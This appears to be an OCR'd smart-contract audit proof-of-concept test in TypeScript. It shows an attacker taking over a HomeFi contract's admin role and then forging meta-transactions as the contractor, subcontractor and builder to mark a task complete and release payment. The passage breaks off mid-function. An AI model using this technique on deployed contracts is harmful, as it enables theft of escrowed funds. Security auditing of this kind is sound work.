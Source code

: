 ```typescript
    let to = homeFiContract.address;
    if (!data) {
      throw Error('No data');
    }
    let tx = await executeMetaTX(from, to, data);

    // assert that admin has been replaced by attacker
    expect(await homeFiContract.admin()).to.be.eq(attacker.address);

    // attacker can now execute setComplete() using the approveHash() method

    const taskID = 1;
    const _taskCost = 2 * taskCost;
    const taskSC = signers[3];
    let completeData = {
      types: ['uint256', 'address'],
      values: [taskID, project.address],
    };
    const [encodedData, hash] = await encodeDataAndHash(completeData);
    await mockDAIContract.mock.transfer
      .withArgs(taskSC.address, _taskCost)
      .returns(true);
    await mockDAIContract.mock.transfer
      .withArgs(await homeFiContract.treasury(), _taskCost / 1e3)
      .returns(true);

    ({data} = await project.populateTransaction.approveHash(hash));
    let contractor = await project.contractor();
    let {subcontractor} = await project.getTask(taskID);
    let builder = await project.builder();

    await executeMetaTX(contractor, project.address, data as string);
    await executeMetaTX(subcontractor, project.address, data as string);
    await executeMetaTX(builder, project.address, data as string);
    

    tx = await project.setComplete(encodedData, "0x");
    await tx.wait();

    await expect(tx).to.emit(project, 'TaskComplete').withArgs(taskID);

    const { state } = await project.getTask(taskID);
    expect(state).to.equal(3);
    const getAlerts = await project.getAlerts(taskID);
    expect(getAlerts[0]).to.equal(true);
    expect(getAlerts[1]).to.equal(true);
    expect(getAlerts[2]).to.equal(true);
    expect(await project.lastAllocatedChangeOrderTask()).to.equal(0);
    expect(await project.changeOrderedTask()).to.deep.equal([]);

    async function executeMetaTX(from: string, to: string, data: string ) {
      const gasLimit = await ethers.provider.estimateGas({
        to,
        from,
        data,
      });
      const message = {
        from,
        to,
        value: 0,
        gas: gasLimit.toNumber(),
        nonce: 0,
        data,
```